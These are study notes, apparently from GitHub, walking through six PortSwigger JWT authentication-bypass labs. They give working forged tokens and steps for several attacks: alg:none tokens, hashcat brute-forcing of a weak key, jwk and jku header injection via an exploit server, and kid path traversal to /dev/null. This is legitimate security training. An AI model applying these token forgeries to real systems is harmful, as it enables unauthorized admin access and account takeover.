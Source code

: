 ## Lab - 1: JWT authentication bypass via unverified signature (A)

- This lab uses a JWT-based mechanism for handling sessions. Due to implementation flaws, the server doesn't verify the signature of any JWTs that it receives. To solve the lab, modify your session token to gain access to the admin panel at /admin, then delete the user carlos. You can log in to your own account using the following credentials: wiener:peter

- the payload part of session is as follow:

```json
{
  "iss": "portswigger",
  "sub": "wiener",
  "exp": 1665055299
}
```

- change the `"sub": "administrator"` and send the request
- user account will become admin
- with this token, set GET request to this `GET /admin/delete?username=carlos HTTP/1.1`

---

## Lab - 2: JWT authentication bypass via flawed signature verification (A)

- This lab uses a JWT-based mechanism for handling sessions. The server is insecurely configured to accept unsigned JWTs. To solve the lab, modify your session token to gain access to the admin panel at /admin, then delete the user carlos. You can log in to your own account using the following credentials: wiener:peter

- the original session cookie looks like this:

```
eyJraWQiOiJjZDMzZDE1OC01MDMwLTQ3ODgtOTI0NS0xODE5ZDUzMThmMDEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY2NTA1NzAxMX0.CnOMEooDjAM8u_zF_f1lc3Q3cxm6K4wVTjR_x_G-i1Vu_icxWQmZ9como2XV0jMbYfh0ElFmBEMbB7wlOheD_tRRgX0jz-rEr3btt7W4KMpm92CbGUiWBiN_dUOp_bNIH40mRcUauseRQEKCEdQ_KQYks6TILpMXQiKzimrZygPla-rRK5E0Q3FfMCMRVisrpxf1nH2aP77BK0Ou1XqmU56rP8nm43sca7vJu4Y1LzHk5FypUkJei5P9KGtgaQQue9-a2HbERht7VAX4Wxe-BH6_fZ231je15259CndAXpP-svHz8wiZjkl-cQDaASBTNjJcqam9eESdrGyexbc1TA
```

- after decoding header and payload parts,

```json
{ "kid": "cd33d158-5030-4788-9245-1819d5318f01", "alg": "RS256" } # header
{"iss":"portswigger","sub":"wiener","exp":1665057011} # payload
```

- change the `"alg": "none"` and `"sub": "administrator"` and delete the signature part but **remember to leave the `.`**

- the session cookie looks like this:

```
eyJraWQiOiJjZDMzZDE1OC01MDMwLTQ3ODgtOTI0NS0xODE5ZDUzMThmMDEiLCJhbGciOiJub25lIn0%3d.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2NjUwNTcwMTF9.
```

- **the last dot is important**
- then enter as an admin and go on

---

## Lab - 3: JWT authentication bypass via weak signing key (P)

- This lab uses a JWT-based mechanism for handling sessions. It uses an extremely weak secret key to both sign and verify tokens. This can be easily brute-forced using a wordlist of common secrets. To solve the lab, first brute-force the website's secret key. Once you've obtained this, use it to sign a modified session token that gives you access to the admin panel at /admin, then delete the user carlos. You can log in to your own account using the following credentials: wiener:peter

1. Brute-Force with hashcat

- login with wiener and get the session JWT token
- try the previous steps and not working
- use hashcat wordlist from https://github.com/wallarm/jwt-secrets

```
hashcat -a 0 -m 16500 your-JWT wt.secrets.list
```

- get `secret1`

2. Generate a forged signing key

- use Brup Decoder, base64 encode the `secret1` => `c2VjcmV0MQ==`
- in `JWT Editor Keys` tab > `Add New Symmetric Key` > Generate > substitue above value in "k" parameter

3. Modify and sign the JWT

- in Burp Repeater, use JSON Web Token extension
- modify the "sub" parameter to "administrator"
- `Sign` and select the key that was generated before
- Select `Don't modify header`
- Copy that JWT and GET request to `/admin`

---

## Lab - 4: JWT authentication bypass via jwk header injection (P)

- This lab uses a JWT-based mechanism for handling sessions. The server supports the jwk parameter in the JWT header. This is sometimes used to embed the correct verification key directly in the token. However, it fails to check whether the provided key came from a trusted source. To solve the lab, modify and sign a JWT that gives you access to the admin panel at /admin, then delete the user carlos. You can log in to your own account using the following credentials: wiener:peter

- login with wiener and get the session JWT token
- try the previous steps and not working
- `JWT Editor Keys` tab > `New RSA Key` > Generate >
- in Burp Repeater, use JSON Web Token extension
- change the payload to administrator
- `Attack` > Embedded JWK > choose that was generated before in signing key > OK
- copy the JWT and send with /admin request

---

## Lab - 5: JWT authentication bypass via jku header injection (P)

- This lab uses a JWT-based mechanism for handling sessions. The server supports the jku parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key. To solve the lab, forge a JWT that gives you access to the admin panel at /admin, then delete the user carlos. You can log in to your own account using the following credentials: wiener:peter

- login with `wiener` account
- send to Burp Repeater with one of the request that contains session JWT
- `JWT Editor Keys` > `New RSA Key` > Generate
- on the generated key (Right click) > Copy public key as RSA
- then stored at the exploit server like this format :

```json
{
  "keys": [
    {
      "kty": "RSA",
      "e": "AQAB",
      "kid": "7f5bc94c-f527-4a27-b49c-5769797ada3d",
      "n": "tagE2UCQk1ZDqCindZMOdXw8D2QM08dJNhlAT7cj2PbI9ch82zm9T13A-h4wIil6_TqGptYuVNvqmNBML9uun0Pd8VLAybxnWIS0jjv8tD8N9SOcIGWNW8AItpBnoRk4cKdrDzyiOhUPzc0MWxOzKHXTG36sG0NrT6PzLCGE3Yyop4fWMbyH-HMncWUqkapLoyEn7h0BSeuDhNE5g309x6sCZ61FwRvoNMZbs5h4m7tWWdV8effKW4WiEGaOmbuNt6a08vSRUiNedqLiS2ectPl84-iheO59BGFfBgdsYRRX2aOLVthrd3_gU7GQavk2KywEHGfruP8WK49nQzGkxQ"
    }
  ]
}
```

- modified the JWT like this
- header -> the `kid` parameter from the previous key and `jku` parameter to the exploit server link

```json
{
  "kid": "7f5bc94c-f527-4a27-b49c-5769797ada3d",
  "alg": "RS256",
  "jku": "https://exploit-0af0004c03c7a8c7c13a34c6013a00d4.exploit-server.net/exploit"
}
```

- payload -> "sub" parameter to administrator

```json
{
  "iss": "portswigger",
  "sub": "administrator",
  "exp": 1665067857
}
```

- `Sign` > Signing Key to the previous generated key
- Make sure `Don't modify header` checked
- copy the token and send with this token

---

## Lab - 6: JWT authentication bypass via kid header path traversal (P)

- This lab uses a JWT-based mechanism for handling sessions. In order to verify the signature, the server uses the kid parameter in JWT header to fetch the relevant key from its filesystem. To solve the lab, forge a JWT that gives you access to the admin panel at /admin, then delete the user carlos. You can log in to your own account using the following credentials: wiener:peter

- login with `wiener` account
- send to Burp Repeater with one of the request that contains session JWT
- `JWT Editor Keys` > `New Symmetric Key` > Generate > change the `k` parameter to `AA==` which is null byte
- change the header as

```json
{
  "kid": "../../../../../../dev/null",
  "alg": "HS256"
}
```

- change the payload as

```json
{
  "iss": "portswigger",
  "sub": "administrator",
  "exp": 1665069775
}
```

- sign to the previous generated token
- copy the token

---
